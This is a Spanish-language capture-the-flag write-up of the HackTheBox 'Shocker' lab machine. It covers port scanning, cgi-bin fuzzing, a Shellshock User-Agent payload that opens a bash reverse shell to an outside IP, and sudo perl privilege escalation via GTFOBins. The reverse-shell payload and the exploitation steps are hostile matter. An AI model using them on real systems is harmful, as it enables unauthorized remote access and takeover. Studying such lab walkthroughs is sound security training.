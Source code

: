 
#  SHOCKER MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/1.png)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]
	- [[#NOTA|NOTA]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.56 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.56 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/3.png)

## EXPLOTACION

Vemos que tiene una pagina en el puerto 80 veamosla:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/4.png)

no hay algo interesante, vamos a fuzzear haber si encontramos un directorio, En este caso el mejor diccionario fue **/usr/share/dirb/wordlists/common.txt** porque nos reporte lo mejor posible, los diccionarios que siempre debes usar son:

```bash
/usr/share/dirb/wordlists/common.txt
/usr/share/wordlists/rockyou.txt
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

```bash
wfuzz -c --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/5.png)

vemos un directorio **cgi-bin** esto huele a ataque shell shock, si vemos esa ruta en el navegador no hay nada:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/6.png)

pero vamos a fuzzear ahora ese directorio pero vamos a colocar la extension.cgi a los archivos:

```bash
wfuzz -c --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/cgi-bin/FUZZ.cgi
```

pero no reporto nada interesante:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/7.png)

vamos a intentar buscar con otras extensiones:

```bash
wfuzz -c -t 50 --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/8.png)

ahora si mostro algo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/9.png)

si vamos a esa ruta se nos desacrga un archivo

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/11.png)

nada interesante, pero como esa ruta existe tocara interceptar con burp y jugar con el user agent:

capturamos la peticion a "http://10.10.10.56/cgi-bin/user.sh" y modificamos el user-agent con el siguiente payload de shellshock:

```bash
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.16/4242 0>&1
```

nos colocamos en la escucha en netcat y mandamos la peticion y obtenemos una reverse shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/17.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/12.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/13.png)


## ELEVACION DE PRIVILEGIOS

veamos que puede ejecutar como sudo:

```bash
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/14.png)

vemos que puede ejecutar perl, vamos a buscar en [https://gtfobins.github.io/](https://gtfobins.github.io/).

encontramos lo siguiente si tenemos los permisos sudo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/15.png)

copiamos y lo ejecutamos, ahora somos root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/16.png)

### NOTA

A la hora de escalar privilegios revisar siempre GTFOBins para permisos sudo  o SUID.